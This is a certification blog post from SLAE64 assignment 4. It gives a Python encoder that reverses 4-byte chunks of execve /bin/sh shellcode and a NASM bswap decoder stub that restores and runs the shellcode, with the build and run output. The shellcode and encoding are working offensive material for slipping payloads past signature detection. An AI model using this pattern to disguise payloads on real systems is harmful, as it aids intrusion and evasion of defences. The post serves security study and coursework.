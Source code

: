 ```yaml
---
layout: post
title: Writing a 64-bit custom encoder (reversed byte order of 4 byte chunks)
#description: >
#  This blog post covers the 4th task of the SLAE certificate exam where the goal is to write an encoder of your own choice and then write a decoder routine for it in assembly.
#hide_description: true
#image: /assets/img/blog/example-content-ii.jpg
---
```


This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert Certification](https://www.pentesteracademy.com/course?id=7). The task for 4/7 assignment is to create a custom encoding scheme like shown in the course's Insertion encoder chapter. The encoding scheme should be used on the execve-stack shellcode implemented during the course and then executed.

<b>Student ID</b>: SLAE64 - 1594

### Encoding scheme

I decided to implement an encoding scheme where I would divide the shellcode into 4 byte chunks and reverse the byte order in all of the chunks. For that to work, I also needed to check that the number of total bytes would be divisible by 4. For this I made the check in the python program code below `if (length%4 != 0)`. If it turned out that the number of bytes of the shellcode I am using was not divisible by 4 I padded the shellcode with `\x90`-s as also seen on the picture below.

![](/assets/img/SLAE/encoding.png)

So the final encoder.py looks as follows:

```
#execve stack shellcode from SLAE64 course
import binascii

j = 3
i = 0

shellcode = "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
shellarray = bytearray(shellcode)
length = len(shellarray)
encoded = []

encoded_shellcode = shellcode.encode('hex')
input = "Input: "+ r"\x" + r"\x".join(encoded_shellcode[n:n+2] for n in range(0, len(encoded_shellcode),2))
print input

#print "Old length: %s" % length

if (length%4 != 0):
	adding = 4 -(length%4)
	for i in range (adding):
		shellarray.append(0x90)

#print "New length with \\x90-s appended: %s" % len(shellarray)

#changing positions
while(j <= len(shellarray)):
	for i in range(4):
		encoded.append(shellarray[j-i])
	j = j + 4

output = binascii.hexlify(bytearray(encoded))
result = "Output (\\xXX format):" + r"\x" + r"\x".join(output[n : n+2] for n in range(0, len(output), 2))
print result
result2 = "Output (0xXX format): " + r"0x" + r",0x".join(output[n : n+2] for n in range(0, len(output), 2))
print result2



# Input: \x48\x31\xc0\x50 \x48\xbb\x2f\x62 \x69\x6e\x2f\x73 \x68\x53\x48\x89 \xe7\x50\x48\x89 \xe2\x57\x48\x89 \xe6\x48\x83\xc0 \x3b\x0f\x05
# Output \x50\xc0\x31\x48 \x62\x2f\xbb\x48 \x73\x2f\x6e\x69 \x89\x48\x53\x68 \x89\x48\x50\xe7 \x89\x48\x57\xe2 \xc0\x83\x48\xe6 \x90\x05\x0f\x3b

```

Output:
```
$ python ./encoder.py
Input: \x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
Output (\xXX format):\x50\xc0\x31\x48\x62\x2f\xbb\x48\x2f\x2f\x6e\x69\x48\x53\x68\x73\x48\x50\xe7\x89\x48\x57\xe2\x89\x83\x48\xe6
\x89\x05\x0f\x3b\xc0
Output (0xXX format): 0x50,0xc0,0x31,0x48,0x62,0x2f,0xbb,0x48,0x2f,0x2f,0x6e,0x69,0x48,0x53,0x68,0x73,0x48,0x50,0xe7,0x89,0x48,0x57,
0xe2,0x89,0x83,0x48,0xe6,0x89,0x05,0x0f,0x3b,0xc0
```

### Go simple or go home - htonl()

In order for this encoder scheme to be useful for us, we should also implement the decoder stub for that particular encoding. Funnily enough I thought implementing the decoder for that would be super difficult and I would need to keep note of where I am currently in the decoded hex string, where are all the `4th*X` bytes and when does the hex string end, but that turned out to be wrong assumption. One evening I was thinking of my egghunter solution where I used an `access` syscall for something that it was not really intended for. That funnily brought me to `htonl()` function in C which I have previously used to convert something to network byte order. BECAUSE ... it also operates on data in 4 byte chunks and reverses the byte order. How convenient! So I made a quick example with `htonl()` to see what instructions it is made up of in assembly and it turned out I only needed 1 instruction `bswap`.

<b>htonl.c example</b>:
```
//$ gcc htonl.c -o htonl
//$ gdb ./htonl

#include <arpa/inet.h>
int main() {
  int server_fd = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in server;
  server.sin_family = AF_INET;
  server.sin_port = htonl(80808080);
  server.sin_addr.s_addr = htonl(INADDR_ANY);
  // ...
  return 0;
}
```

![](/assets/img/SLAE/htonl.png)

### Decoder

That single instruction - `bswap` - turned out to be the key to an easy solve for this decoder routine. The rest of the program is built using the JCP (Jmp-CALL-Pop) technique to get the address of encoded_shellcode to RBX via `pop rbx`. In order to save the decoded shellcode somewhere on the stack in `allocate_space` I am allocating the length of shellcode worth of space and saving the beginning address of decoded shellcode to R10 for later use. In `cmp` section I am performing the check to see if I have reached to the end of the shellcode yet.

The `decode` section is undeniably the most important part here. This is where I use RBX to get the address of 1st byte in a 4-byte chunk and then iterating RCX to move from one 4-byte chunk to the next while using bswap to reverse the byte order back to its original order.

```
global _start

section .text

_start:

	jmp find_address

decoder:
	pop rbx                   ;get the address of the encoded_shellcode
	xor rdi, rdi
	xor rcx, RCX              ;counter

allocate_space:
	sub rsp, 0x20             ;allocate space depending on the length of your shellcode
	mov r10, rsp
	jmp decode

cmp:
	inc rcx
	cmp rcx, 0x20             ;32 - length of the shellcode
	jge decoded_shell

decode:
	mov edi, dword [rbx+rcx]
	bswap edi                 ;reverse the order of 4 bytes
	mov dword [rsp], edi
	add rcx, 4
	add rsp, 4

	loop cmp

find_address:
	call decoder

	encoded_shellcode:	db	0x50,0xc0,0x31,0x48,0x62,0x2f,0xbb,0x48,0x2f,0x2f,0x6e,0x69,0x48,
    0x53,0x68,0x73,0x48,0x50,0xe7,0x89,0x48,0x57,0xe2,0x89,0x83,0x48,0xe6,0x89,0x05,0x0f,0x3b,0xc0


decoded_shell:
	mov rsp, r10        ;get back to the top of the decoded shell on stack
	push r10        ;put the address where decoded shell resides to the top of the stack so we can ret to it
	ret
```

### Assemble, link and go

```
$ nasm -felf64 decoder.nasm -o decoder.o
$ ld decoder.o -o decoder
$ ./decoder

$whoami
silvia
```

* * *

* Encoder.py<br> [https://github.com/silviavali/SLAE/blob/master/task4/encoder.py](https://github.com/silviavali/SLAE/blob/master/task4/encoder.py)
* Decoder.nasm: <br>[https://github.com/silviavali/SLAE/blob/master/task4/decoder.nasm](https://github.com/silviavali/SLAE/blob/master/task4/decoder.nasm)

#### Related posts:

* [64-bit bindshell with a passphrase protection](https://silviavali.github.io/blog/2019-01-15-blog-SLAE1/)
* [64-bit reverse shell with passphrase protection](https://silviavali.github.io/blog/2019-01-25-blog-SLAE2/)
* [Egghunter (64-bit Linux) using access() syscall](https://silviavali.github.io/blog/2019-02-25-blog-SLAE3/)
* [Writing a 64-bit custom encoder (reversed byte order of 4 byte chunks)](https://silviavali.github.io/blog/2019-02-25-blog-SLAE4/)
* [Msfvenom generated Exec shellcode analysis - exec shellcode](https://silviavali.github.io/blog/2019-05-01-blog-SLAE51/)
* [Msfvenom generated bind_tcp shellcode analysis](https://silviavali.github.io/blog/2019-05-01-blog-SLAE52/)
* [Msfvenom generated shell_reverse_tcp payload](https://silviavali.github.io/blog/2019-05-01-blog-SLAE53/)
* [Polymorphic shellcodes for samples taken from Shell-Storm](https://silviavali.github.io/blog/2019-05-01-blog-SLAE6/)
* [Custom encrypter - One-time pad (OTP)](https://silviavali.github.io/blog/2019-05-01-blog-SLAE7/)